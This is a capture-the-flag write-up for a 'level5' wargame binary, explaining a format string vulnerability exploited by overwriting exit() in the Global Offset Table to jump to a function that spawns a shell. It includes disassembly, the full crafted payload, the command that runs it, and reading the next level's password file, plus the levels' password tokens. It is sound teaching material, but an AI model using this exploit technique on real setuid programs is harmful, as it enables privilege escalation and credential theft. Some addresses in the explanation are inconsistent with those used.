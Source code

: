 # Level5 - Format string vulnerability - Code redirection with GOT Overwrite

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| level5 | `0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a` |
| level6 | `d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

Execute level5

```shell
./level5
(stdin) abcdef
> abcdef
```

Seems to be like previous levels.

Lets debug the binary

```shell
(gdb) info functions

> (...)
  0x080484a4  o
  0x080484c2  n
  0x08048504  main
  (...)
```

```shell
gdb-peda$ pdisas main
  0x0804850a <+6>:     call   0x80484c2 <n>                     # call n()

gdb-peda$ pdisas o
  0x080484aa <+6>:     mov    DWORD PTR [esp],0x80485f0         # 0x80485f0: "/bin/sh"
  0x080484b1 <+13>:    call   0x80483b0 <system@plt>            # call system("/bin/sh")
  0x080484b6 <+18>:    mov    DWORD PTR [esp],0x1
  0x080484bd <+25>:    call   0x8048390 <_exit@plt>             # call _exit(1)

gdb-peda$ pdisas n
  0x080484cb <+9>:     mov    eax,ds:0x8049848                  # 0x8049848 <stdin@@GLIBC_2.0>
  0x080484d0 <+14>:    mov    DWORD PTR [esp+0x8],eax
  0x080484d4 <+18>:    mov    DWORD PTR [esp+0x4],0x200
  0x080484dc <+26>:    lea    eax,[ebp-0x208]
  0x080484e2 <+32>:    mov    DWORD PTR [esp],eax
  0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>             # call fgets(buf, 0x200, stdin)
  0x080484ea <+40>:    lea    eax,[ebp-0x208]
  0x080484f0 <+46>:    mov    DWORD PTR [esp],eax
  0x080484f3 <+49>:    call   0x8048380 <printf@plt>            # call printf(buf)
  0x080484f8 <+54>:    mov    DWORD PTR [esp],0x1
  0x080484ff <+61>:    call   0x80483d0 <exit@plt>              # call exit(1)
```

We need to call `o`-function that creates a new shell.

n() calls exit(1) at the end of his routine. It means that we never return to main() ! So, what do we do now ? Well, we’ll use a trick called GOT Overwrite.

Basically, when the program is executed, the GOT (Global Offset Table) is initialized for every external functions (like libc functions). By doing so, the executable will cache the memory address in the GOT, so that it doesn’t have to ask libc each time an external function is called.

The goal here will be to overwrite the address of exit() in the GOT with the address of hello(). There are 4 steps here :

- Find the address of o()
- Find the address of exit() in GOT
- Find the offset of our string on the stack
- Write the proper exploit string

Let’s find the address of exit() and o()

```shell
# Get exit-syscall address
objdump -R ~/level5 | grep exit
> 08049828 R_386_JUMP_SLOT   _exit
  08049838 R_386_JUMP_SLOT   exit

# Get o-function address
objdump -t ~/level5 | grep -w o
> 080484a4 g     F .text  0000001e              o
```

It means we want to write the value `0x080484a4` at the address of exit: `0x08049838`

We need to know the buffer address.

```bash
gdb-peda$ b *p+54 # just after printf
gdb-peda$ run <<< AAAA
[------------------------------------stack-------------------------------------]
0000| 0xbffff430 --> 0xbffff440 ("AAAA\n")
0004| 0xbffff434 --> 0x200
0008| 0xbffff438 --> 0xb7fd1ac0 --> 0xfbad2088
0012| 0xbffff43c --> 0xb7ff37d0 (<__libc_memalign+16>:  add    ebx,0xb824)
0016| 0xbffff440 ("AAAA\n")
[------------------------------------------------------------------------------]
```

The buffer pointer is 4 addresses before the printf argument.

As `0x080484a4` is a big value, instead of print this value, we will split this integer with two short integers:

- High-order bytes: `0x0804` will be written at `0x08040838 + 2`
- Low-order bytes: `0x84a4` will be written at `0x08040838`

Basically, our format string should be something like:

```
ADDRESS_1 + ADDRESS_2 + %<VALUE_1>x + %4$hn +  %<VALUE_2>x + %5$hn
   _____________________________________|                      |
   |           ________________________________________________|
   |           |
ADDRESS_1 + ADDRESS_2 + %<VALUE_1>x + %4$hn +  %<VALUE_2>x + %5$hn
   |           |            |                       |
0x0804083a 0x08040838  (0x0804 - 8)         (0x84a4 - 0x0804)

=> "\x3a\x98\x04\x08" + "\x38\x98\x04\x08" + "%2044x" + "%4$hn" + "%31904x" + "%5$hn"
```

> \_Note: VALUE_1 has to be greater than VALUE_2. Otherwise, switch addresses

Lets confirm that:

```bash
gdb-peda$ b *n+54 # after printf
> Breakpoint 1 at 0x80484f8

gdb-peda$ run < <(python -c 'print "\x3a\x98\x04\x08" + "\x38\x98\x04\x08" + "%2044x" + "%4$hn" + "%31904x" + "%5$hn"')
[------------------------------------stack-------------------------------------]
0000| 0xbffff420 --> 0xbffff430 --> 0x804983a --> 0x53e00804
0004| 0xbffff424 --> 0x200
0008| 0xbffff428 --> 0xb7fd1ac0 --> 0xfbad2088
0012| 0xbffff42c --> 0xb7ff37d0 (<__libc_memalign+16>:	add    ebx,0xb824)
0016| 0xbffff430 --> 0x804983a --> 0x53e00804                    # <----- %4$hn
0020| 0xbffff434 --> 0x8049838 --> 0x80484a4 (<o>:	push   ebp)  # <----- %5$hn
0024| 0xbffff438 ("%2044x%4$hn%31904x%5$hn\n")
[------------------------------------------------------------------------------]

gdb-peda$ x/x 0x8049838
> 0x8049838 <exit@got.plt>:	0x080484a4 # Perfect ! It contains our address

gdb-peda$ continue
> [New process 27345]
  process 27345 is executing new program: /bin/dash
  (...)
```

We perfectly overwritted the address of exit in the Global Offset Table. The new shell has been created but without setuid.
Let's try without gdb

```shell
python -c 'print "\x3a\x98\x04\x08" + "\x38\x98\x04\x08" + "%2044x" + "%4$hn" + "%31904x" + "%5$hn"' > /tmp/exploit5
cat /tmp/exploit5 - | ~/level5

$ whoami
> level6
$ cat /home/user/level6/.pass
> d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

---

## Sources

### Format string vulnerability

- [Memory segmentation - Cheat sheet](https://www.0x0ff.info/wp-content/uploads/2015/12/buffer-overflow-memory-segmentation-cheat-sheet.png)
- [Exploit 101 - Format Strings](https://axcheron.github.io/exploit-101-format-strings/)

### Shell

- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man system](https://linux.die.net/man/3/system)
- [Man exit](https://linux.die.net/man/3/exit)
- [Man \_exit](https://linux.die.net/man/2/_exit)
